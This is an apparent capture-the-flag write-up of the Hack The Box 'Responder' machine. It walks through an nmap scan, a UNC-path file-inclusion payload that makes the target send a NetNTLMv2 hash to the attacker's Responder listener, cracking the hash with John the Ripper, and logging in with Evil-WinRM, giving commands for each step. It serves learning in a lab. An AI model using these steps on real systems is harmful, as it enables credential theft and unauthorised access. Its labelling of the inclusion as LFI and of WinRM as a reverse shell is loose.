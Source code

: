 # 🧠 Responder – HTB Starting Point Write-Up  
**Author:** dotguy  
**Tier:** 1  
**Category:** Windows, LFI, Responder, NetNTLMv2, Password Cracking, Evil-WinRM  

---

## 🗒️ Introduction  
Windows remains the dominant OS in enterprise environments, often configured with Active Directory and legacy authentication protocols like NTLM.  
This box demonstrates how a **File Inclusion vulnerability** can be abused to capture a **NetNTLMv2 challenge** via `Responder`, then crack it using `JohnTheRipper` to gain a shell with **Evil-WinRM**.

---

## 🔍 Enumeration  

Performed an Nmap scan:

```bash
nmap -sC -sV -Pn -p- 10.129.X.X
```

![nmap result](./HTB_THINGY/nmap_result.png)

Discovered:
- Port 80 (HTTP)
- Possible web app hosted

Visited the site: **Unika**

![Unika site](./images/2-unika.png)

---

## 📤 LFI Discovery  

Found an input field that takes strings:

![String input](./images/3-string-input.png)

Tested for LFI using:

```http
\\10.10.14.X\share
```

![LFI string input](./images/4-lfi-input.png)

Confirmed inclusion leads to outbound request from server — ✅ **vulnerable to LFI**.

---

## 🧪 Responder Setup  

Started `Responder` on local machine:

```bash
sudo responder -I tun0
```

![Responder started](./images/5-responder-init.png)

Then configured the parameter to call our malicious SMB path:

![Setting page param](./images/6-setting-param.png)

---

## 🪝 NTLMv2 Hash Captured  

Boom — captured a **NetNTLMv2 hash** for user `admin`.

![Hash captured](./images/7-netntlm-admin.png)

Saved the hash to a file: `hash.txt`

---

## 🔓 Cracking the Hash  

Used `JohnTheRipper` with the rockyou wordlist:

```bash
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

Cracked password: **badminton**

![Password cracked](./images/8-password-badminton.png)

---

## 🩸 Shell Access – Evil-WinRM  

Logged in using Evil-WinRM:

```bash
evil-winrm -i 10.129.X.X -u admin -p badminton
```

![Evil-WinRM shell](./images/9-evil-winrm.png)

Listed directories and found the flag:

```bash
dir
type flag.txt
```

![Flag directory](./images/10-dir-flag.png)  
![Flag content](./images/11-flag-found.png)

---

## 🔚 What I Learned  

- How NTLMv2 works and why it's still dangerous when combined with LFI  
- Using `Responder` to capture hashes  
- Cracking hashes with `john`  
- Practical use of `Evil-WinRM` to get reverse shells on Windows targets  

---

## 🧰 Tools Used  
- Nmap  
- Responder  
- JohnTheRipper  
- Evil-WinRM  
- Burp Suite  
- Browser

---

## ✅ Final Thoughts  

Even though this was a Starting Point machine, the attack chain reflects a **real-world vuln combo** (LFI ➝ SMB relay ➝ NTLMv2 ➝ cracked creds ➝ WinRM shell). This box reinforces how outdated configurations can still lead to pwnage 💀.

---

**🔗 Connect with me on LinkedIn & check more writeups:**  
[github.com/yourusername](https://github.com/yourusername)
